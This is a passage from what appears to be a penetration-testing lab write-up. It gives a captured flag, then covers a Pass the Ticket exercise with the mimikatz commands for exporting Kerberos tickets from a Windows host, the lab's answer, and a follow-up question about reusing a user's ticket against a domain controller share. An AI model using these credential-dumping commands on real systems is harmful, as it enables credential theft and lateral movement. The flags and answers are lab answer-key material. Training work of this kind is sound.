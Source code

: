 *   Obtain reverse Shell & get flag

    <figure><img src=".gitbook/assets/image (185).png" alt=""><figcaption></figcaption></figure>

<mark style="color:green;">**JuL1()\_N3w\_fl@g**</mark>

### Pass the Ticket (PtT) from Windows

#### Questions

**Connect to the target machine using RDP and the provided creds. Export all tickets present on the computer. How many users TGT did you collect?**

* Reminna login via RDP
* run C:/tools/mimikatz.exe

```cmd-session
privilege::debug
sekurlsa::tickets /export
```

<figure><img src=".gitbook/assets/image (186).png" alt=""><figcaption></figcaption></figure>

**Answer: 3**

<figure><img src=".gitbook/assets/image (187).png" alt=""><figcaption></figcaption></figure>

**Use john's TGT to perform a Pass the Ticket attack and retrieve the flag from the shared folder \DC01.inlanefreight.htb\john**

